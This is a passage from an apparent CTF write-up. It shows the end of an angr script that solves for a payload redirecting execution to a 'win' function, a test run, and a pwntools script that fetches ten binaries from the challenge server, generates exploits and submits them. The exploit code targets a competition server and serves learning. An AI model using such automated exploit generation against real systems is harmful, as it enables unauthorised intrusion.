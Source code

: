 ```python  

   # Use the constraints solver to find a payload that sets $rip to the win  
   # address, then save the payload to a file.  
   win = proj.loader.find_symbol("win")  
   ep.add_constraints(ep.regs.pc == win.linked_addr)  
   payload_real = ep.solver.eval(payload_ast, cast_to=bytes)  
   open(f"{filename}.exp", "wb").write(payload_real)  
   print(f"[+] Wrote payload to {filename}.exp")

if __name__ == '__main__':  
   main(sys.argv[1])  
```

Now let's test it:  
```  
$ python3 aeg.py sample/0  
...  
[+] Wrote payload to sample/0.exp

$ ./sample/0 < sample/0.exp

$ echo $?  
100  
```

That means the program exited with status code `100`, which means that the  
`win` function was called! Now all that's left is to wrap this in a pwntools  
script to interact with the challenge server:

> Note: For some reason I couldn't get pwntools and angr to work in the same  
> Python virtualenv, so I had to do an ugly workaround.

```python  
import pwn  
import subprocess

def aeg(i: int):  
   """  
   Run aeg.py in virtualenv with angr installed, since pwntools and angr seem  
   to have dependency conflicts >:(  
   """  
   filename = f"bins/{i}"  
   cmd = f"./env/bin/python aeg.py {filename}"  
   print(subprocess.check_output(cmd, shell=True))  
   return open(f"bins/{i}.exp", "rb").read()

pwn.context.log_level = "debug"  
io = pwn.remote("pwn.utctf.live", 9997)  
io.sendlineafter("Press enter when you're ready for the first binary.", "")

for i in range(10):  
   s = io.recvuntilS("You have 60 seconds to provide input:")  
   s = "\n".join(s.split("\n")[:-1])  # Get rid of the last line  
   s = s.strip()  
   open(f"bins/{i}.hex", "w").write(s)  
   # Parse hexdump into a binary file  
   subprocess.check_output(f"xxd -r bins/{i}.hex > bins/{i}", shell=True)

   exp = aeg(i)  
   io.sendline(exp)  
   io.recvuntil("Process exited with return code")  
   io.recvline()

io.interactive()  
```
